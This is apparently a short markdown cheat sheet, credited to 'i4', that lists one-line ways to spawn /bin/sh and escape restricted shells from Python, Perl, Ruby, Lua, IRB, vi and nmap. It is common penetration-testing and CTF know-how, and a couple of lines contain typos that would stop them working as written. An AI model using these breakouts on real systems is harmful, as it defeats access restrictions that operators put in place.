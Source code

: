 ```yaml
---
title: Spawn
author: i4
date: M11-02-2022
---
```

# Spawn /bin/sh from restricted environments

Ways to escape a restricted environment

### Python 3
```python
python3
python -c 'import pty; pty.spawn("/bin/sh")'
```
### Python 2
```python
python2
echo os.system('/bin/bash')
```
### sh
```sh
/bin/sh -i
```
### Perl
```perl
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```
### Ruby
```Ruby
exec "/bin/sh"
```
### lua
```lua
os.execute('/bin/sh')
```
### From within IRB
```bash
exec "/bin/sh"
```
### From within vi
```bash
:!bash
:set shell=/bin/bash:shell
``` 
### Within nmap
```bash
!sh
```
